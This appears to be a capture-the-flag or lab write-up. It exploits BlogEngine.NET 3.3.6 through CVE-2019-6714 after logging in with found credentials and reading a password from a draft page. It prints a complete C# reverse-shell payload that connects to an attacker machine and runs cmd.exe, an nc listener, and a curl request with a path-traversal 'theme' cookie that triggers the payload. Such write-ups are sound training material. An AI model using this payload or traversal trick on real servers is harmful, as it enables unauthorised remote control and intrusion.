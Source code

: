 
## Getting a new password from the Web Server

With the found credentials, you are able to log in as user guest on `http://MACHINE IP>/blog/Account/login.aspx?ReturnURL=/blog/admin/`.

![[image.png|317x423]]

After loggin in you'll see

![[Screenshot from 2025-09-15 19-47-59.png]]

Go to `Draft pages` and read the page.

![[Screenshot from 2025-09-15 19-50-56.png]]

There's a pasword `Excal1burP@ss1337`.

## Accessing the Machine

### BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution

> [!Note]
>  CVE-2019-6714
>  Path traversal vulnerability leading to remote code execution.  This vulnerability affects BlogEngine.NET versions 3.3.6 and below.  This  is caused by an unchecked "theme" parameter that is used to override  the default theme for rendering blog pages.  The vulnerable code can   be seen in this file:  /Custom/Controls/PostList.ascx.cs.
 
More info: https://www.exploit-db.com/exploits/46353

#### Uploading the exploit

#Attacking_machine 
- Create a file called `PostView.ascx`with the following content.
```
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

	using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("<font color="#ff0000"><ATTACKING MACHINE></font>", 445)) {
		using(System.IO.Stream stream = client.GetStream()) {
			using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
				streamWriter = new System.IO.StreamWriter(stream);
						
				StringBuilder strInput = new StringBuilder();

				System.Diagnostics.Process p = new System.Diagnostics.Process();
				p.StartInfo.FileName = "cmd.exe";
				p.StartInfo.CreateNoWindow = true;
				p.StartInfo.UseShellExecute = false;
				p.StartInfo.RedirectStandardOutput = true;
				p.StartInfo.RedirectStandardInput = true;
				p.StartInfo.RedirectStandardError = true;
				p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
				p.Start();
				p.BeginOutputReadLine();

				while(true) {
					strInput.Append(rdr.ReadLine());
					p.StandardInput.WriteLine(strInput);
					strInput.Remove(0, strInput.Length);
				}
			}
		}
    	}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
   	StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                    	streamWriter.WriteLine(strOutput);
                    	streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
```

> [!Note]
> Change in the previous code the ATTACKING MACHINE IP. 
> Use port 445.



#Web_edito
- On the previous message where you got the password, there's an File Manager Icon. ![[Screenshot 2025-09-15 at 14-08-13 Excelibur (guest).png]]

- Enter and upload the `PostView.ascx` file.

![[Screenshot from 2025-09-15 20-11-22.png]]


#### Getting a reverse shell

#Attacking_machine 
- Open a netcat listener on port 445.
```
nc -lnvp 445
```


- Run the following code to connect to the listener.
```
curl -v --cookie "theme=../../App_Data/files/" http://<MACHINE IP>/blog/
```

![[Screenshot from 2025-09-16 12-45-33.png]]

